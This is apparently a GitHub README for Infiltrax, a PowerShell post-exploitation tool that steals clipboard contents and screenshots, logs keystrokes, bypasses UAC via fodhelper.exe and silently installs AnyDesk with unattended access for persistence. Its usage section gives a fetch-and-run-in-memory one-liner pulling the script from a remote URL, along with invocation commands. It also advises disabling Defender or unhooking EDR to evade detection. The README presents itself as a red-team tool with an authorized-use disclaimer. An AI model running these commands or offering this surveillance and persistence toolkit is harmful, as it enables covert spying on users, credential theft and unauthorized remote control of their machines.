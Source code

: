 # Infiltrax
Infiltrax is a post-exploitation reconnaissance tool for penetration testers and red teams, designed to capture screenshots, retrieve clipboard contents, log keystrokes, bypass UAC and install AnyDesk for persistent remote access.

![Infiltrax](https://raw.githubusercontent.com/alexdhital/Infiltrax/main/usage.gif)

## Features

- **Screenshot Capture**: Take screenshots of the entire screen and save them as PNG files.
- **Clipboard Retrieval**: Access the current clipboard contents.
- **Keystroke Logging**: Record keystrokes for a specified duration.
- **UAC Bypass**: Bypasses UAC via fodhelper.exe
- **AnyDesk Installation**: Install and configure AnyDesk with unattended access.

## Usage
1. **Execute directly into memory**
```powershell
C:\Users\Administrator\Desktop> IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/alexdhital/Infiltrax/main/Infiltrax.ps1')
```
2. **Get Clipboard contents**
```powershell
C:\Users\Administrator\Desktop> Invoke-Clipboard
```
3. **Take desktop screenshot and save into certain location**
```powershell
C:\Users\Administrator\Desktop> Invoke-Screenshot -Path "C:\Windows\Tasks\"
```
4. **Capture user keystrokes and save in a file**
```powershell
C:\Users\Administrator\Desktop> Invoke-KeyStrokeCapture -DurationInSeconds 30 -OutputPath C:\Windows\Tasks\keystrokes.txt
```
5. **Bypass UAC to run any program in elevated context. Default program powershell.exe**

This function is taken from https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692 all credit goes to netbiosX :). Spawnning cmd.exe or powersell.exe from script gets caught by behavioural detection disable defender or unhook EDR first.
```powershell
C:\Users\Vlex\Desktop> Invoke-FodHelperBypass -program "calc.exe"
```
6. **Installs anydesk silently, sets up unattended access and gets remote id** (Requires Administrative Privilege)
```powershell
C:\Users\Administrator\Desktop> Invoke-AnyDeskInstall -InstallPath "C:\Users\Alex\AppData\Local\AnyDesk" -Password "Unattended123!" 
```
## Warning and Legal Notice
This tool is intended solely for use by penetration testers and red team professionals during authorized engagements during post exploitation. Do not use this tool for unauthorized access or illegal activities.
